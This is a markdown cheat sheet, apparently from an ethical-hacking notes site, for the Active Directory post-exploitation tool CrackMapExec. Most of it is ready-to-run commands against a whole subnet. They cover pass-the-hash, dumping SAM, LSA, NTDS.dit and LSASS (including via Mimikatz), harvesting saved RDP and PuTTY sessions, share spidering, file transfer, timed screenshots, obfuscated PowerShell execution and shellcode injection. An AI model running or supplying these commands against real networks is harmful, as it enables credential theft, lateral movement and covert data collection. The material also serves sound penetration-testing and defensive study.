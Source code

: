 ```yaml
---
title: CrackMapExec
categories: [Ethical Hacking Tools, Frameworks and Suites]
tags: [crackmapexec, ldap, winrm, smb, ssh, mssql, pth]
comments: true
---
```


## Overview

CrackMapExec (CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. Built with stealth in mind, CME follows the concept of "Living off the Land", abusing built-in Active Directory features/protocols to achieve it's functionality and allowing it to evade most endpoint protection/IDS/IPS solutions. [^1]

Kali Linux comes with CME pre-installed. [^2]

| Tool Name | Version | MITRE ATT&CK Tactic | MITRE ATT&CK Technique |
| --------- | ------- | ------------------- | ---------------------- |
| [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) | V5.3.0 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) <br> [Privilege Escalation](https://attack.mitre.org/tactics/TA0004/) <br> [Discovery](https://attack.mitre.org/tactics/TA0007/) <br> [Collection](https://attack.mitre.org/tactics/TA0009/) <br> [Command and Control](https://attack.mitre.org/tactics/TA0011/) <br> [Exfiltration](https://attack.mitre.org/tactics/TA0010/) <br> [Execution](https://attack.mitre.org/tactics/TA0002/) <br> [Persistence](https://attack.mitre.org/tactics/TA0003/) <br> [Defense Evasion](https://attack.mitre.org/tactics/TA0005/) <br> [Lateral Movement](https://attack.mitre.org/tactics/TA0008/) |

## CrackMapExec Modules

CME contains a multitude of modules that can be executed, using the `-L` parameter will list the available standalone modules that can be used against a target. The `--options` switch can be added following the module to gain further information.

### Lateral Movement

#### Pass The Hash/Password

After obtaining credential hashes, both the full hash or just the nt hash (second half) can be used to move laterally using Pass the Hash techniques. The following checks will attempt authentication to the entire /24 subnet though a single target may also be used.

```bash
# Pass the Hash
cme smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
cme smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'

# Pass the Password
cme 192.168.1.0/24 -u Administrator -d Domain -p Password
cme 192.168.1.0/24 -u Administrator -d Domain -p Password
```

## Credential Access

```bash
# Dump SAM hashes
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --sam

# Dump LSA secrets
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --lsa

# Dump the NTDS.dit from target Domain Controllers
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --ntds drsuapi

# Run Mimikatz sekurlsa:logonpasswords
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M mimikatz

# Dump LSASS using nanodump and parse result with pypykatz
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M nanodump

# Dump LSASS using procdump and parse result with pypykatz
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M procdump

# Collect saved session data from PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M invoke_sessiongopher
```

## Discovery

```bash
# Enumerate shares and access
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --shares

# Enumerate active sessions
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --sessions

# Enumerate disks
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --disks

# Enumerate logged on users
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --loggedon-users

# Enumerate password policy
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --pass-pol

# Enumerate active RDP sessions
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M get_netrdpsession

# Spider shares
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --spider %SHARE%

# Spider folders
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --spider-folder %FOLDER%
```

## Collection

```bash
# File Upload
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --put-file %LOCAL_FILE% %REMOTE_PATH%

# File Download
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --get-file %REMOTE_PATH% %LOCAL_FILE%

# Take screenshots at regular intervals. Interval in seconds, endtime in HH:MM format.
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M get_timedscreenshot %INTERVAL% %ENDTIME%
```

## Execution

```bash
# Command execution via smb, mmc, wmi, or at
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --exec-method {`smbexec`,`mmcexec`,`wmiexec`,`atexec`} -x %COMMAND%

# Obfuscated Powershell command execution via wmi
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --exec-method wmiexec -X %COMMAND% --obfs

# Process Injection. Path = file containing raw shellcode, ProcID = Process ID to inject (defaults to current PowerShell process)
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M shellcode_inject %PATH% %PROCID%
```

## Sources

[^1]: [CrackMapExec Wiki](https://wiki.porchetta.industries/)
[^2]: [Kali Linux - CrackMapExec](https://www.kali.org/tools/crackmapexec/)
